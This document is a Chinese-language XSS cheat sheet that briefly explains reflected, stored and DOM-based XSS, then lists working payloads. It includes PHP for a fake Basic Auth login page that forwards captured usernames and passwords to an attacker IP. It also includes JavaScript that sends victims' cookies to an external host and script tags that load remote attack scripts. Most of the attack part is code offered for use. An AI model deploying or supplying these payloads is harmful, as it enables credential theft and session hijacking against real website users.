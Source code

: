 ### XSS攻击的利用及原理

#### XSS简介
	全称:XSS跨站脚本攻击，是为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS，XSS是一种在WEB应用中的计算机安全漏洞，它允许恶意WEB用户将代码植入到WEB网站里面，供给其他用户访问，当用户访问到有恶意代码的网页就会产生XSS攻击。

#### 反射型XSS
	反射型XSS只是简单地把用户输入的数据“反射”给浏览器。也就是 说，黑客往往需要诱使用户“点击”一个恶意链接，才能攻击成功。反射 型XSS也叫做“非持久型XSS”（Non-persistent XSS）。

#### 存储型XSS
	存储型XSS会把用户输入的数据“存储”在服务器端。这种XSS具有 很强的稳定性。 比较常见的一个场景就是，黑客写下一篇包含有恶意JavaScript代码 的博客文章，文章发表后，所有访问该博客文章的用户，都会在他们的 浏览器中执行这段恶意的JavaScript代码。黑客把恶意的脚本保存到服务 器端，所以这种XSS攻击就叫做“存储型XSS”。 存储型XSS通常也叫做“持久型XSS”（Persistent XSS），因为从效 果上来说，它存在的时间是比较长的。

#### Dom型XSS
	实际上，这种类型的XSS并非按照“数据是否保存在服务器端”来划 分，DOM Based XSS从效果上来说也是反射型XSS。单独划分出来，是 因为DOM Based XSS的形成原因比较特别，发现它的安全专家专门提出 了这种类型的XSS。出于历史原因，也就把它单独作为一个分类了。 通过修改页面的DOM节点形成的XSS，称之为DOM Based XSS。

### XSS攻击技巧

#### FRAMESET标签执行JS代码

```html
<frameset onload=alert(1)>
```

#### TABLE标签执行JS代码

```html
<table background="javascript:alert(1)"></table>
```

#### IMG标签执行JS代码

```html
<img src="#" onerror=alert(1) />
```

#### SCRIPT标签执行JS代码

```html
<script>alert(1)</script>
```

#### OBJECT标签执行JS代码

```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="><object>
```

#### SRC执行JS代码

```html
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></embed>
```

```html
<embed src="javascript:alert(1)"></embed>
```

#### SRC属性执行JS代码

```html
<embed src="javascript:alert(1)"></embed>
<img src="javascript:alert(1)">
<image src="javascript:alert(2)">
<script src="javascript:alert(3)"></script>
```

#### Dom型攻击代码

```JS
#'onclick="alert(111)"
```

### XSS钓鱼技巧

#### PHP代码 - 钓鱼页面

```php

<?php
error_reporting(0);
if ((!isset($_SERVER['PHP_AUTH_USER'])) || (!isset($_SERVER['PHP_AUTH_PW']))) {
    header('Content-type:text/html;charset=utf-8');
    header("WWW-Authenticate: Basic realm='认证'");
    header('HTTP/1.0 401 Unauthorized');
    echo 'Authorization Required.';
    exit;
} else if ((isset($_SERVER['PHP_AUTH_USER'])) && (isset($_SERVER['PHP_AUTH_PW']))){
	header("Location: http://10.1.25.1:8881/xss/?users={$_SERVER[PHP_AUTH_USER]}&pwd={$_SERVER[PHP_AUTH_PW]}");
}
 
?>

```

#### XSS攻击代码

```html
<script src="http://10.1.25.3:8001/session.php"></script>
```

### XSS窃取Cookie

#### JS代码

```js
var img=document.createElement("img"); img.src="http://10.1.25.3:8001/api/eccffb1cfb7c6cc2?host="+escape(document.location.host)+"&cookie="+escape(document.cookie); document.body.appendChild(img);
```

#### XSS攻击代码

```html
<script src="http://10.10.10.25:8001/static/js/xss.js"></script>
```